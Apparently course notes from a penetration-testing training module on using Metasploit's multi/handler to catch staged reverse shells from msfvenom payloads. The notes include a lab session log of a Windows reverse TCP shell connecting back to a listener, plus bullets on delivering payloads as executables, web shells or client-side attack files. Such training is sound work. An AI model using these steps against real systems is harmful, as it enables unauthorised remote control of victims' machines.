 We received the staged reverse shell and Metasploit started a session for us to use
+ For staged and other advanced payload types (such as Meterpreter), we must use multi/handler instead of tools like Netcat in order for the payload to work

Using _run_ without any arguments will block the command prompt until execution finishes or we background the session
+ As we've learned before, we can use _run -j_ to start the listener in the background, allowing us to continue other work while we wait for the connection
+ We can use the _jobs_ command to get a list of all currently active jobs, such as active listeners waiting for connections

Let's exit our session and restart the listener with **run -j**
+ Then, we'll list the currently active jobs using **jobs** 
+ Once we execute **staged.exe** again, Metasploit notifies us that a new session was created 
```
C:\Users\justin> exit
exit

[*] 192.168.50.202 - Command shell session 6 closed.  Reason: User exit
msf6 exploit(multi/handler) > run -j
[*] Exploit running as background job 1.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP handler on 192.168.119.2:443 

msf6 exploit(multi/handler) > jobs

Jobs
====

  Id  Name                    Payload                        Payload opts
  --  ----                    -------                        ------------
  1   Exploit: multi/handler  windows/x64/shell/reverse_tcp  tcp://192.168.119.2:443

msf6 exploit(multi/handler) > 
[*] Sending stage (336 bytes) to 192.168.50.202
[*] Command shell session 7 opened (192.168.119.2:443 -> 192.168.50.202:50839) at 2022-08-01 10:26:02 -0400
```

As Metasploit created a new session for the incoming connection, we could now again interact with it with **sessions -i** and the session ID as argument 

We can use the generated executable payloads from msfvenom in various situations during a penetration test
+ First, we can use them to create executable file types such as PowerShell scripts, Windows executables, or Linux executable files to transfer them to a target and start a reverse shell
+ Next, we can create malicious files such as web shells to exploit web application vulnerabilities. 
+ Finally, we can also use the generated files from msfvenom as part of a client-side attack

In this section, we explored executable payloads generated with msfvenom
+ We got familiar with how we can use msfvenom to generate executable files containing these payloads and how to set up multi/handler as listener for staged and non-staged payloads alike
+ Using msfvenom to generate executable files with various payloads and in numerous file types will assist us greatly in penetration tests
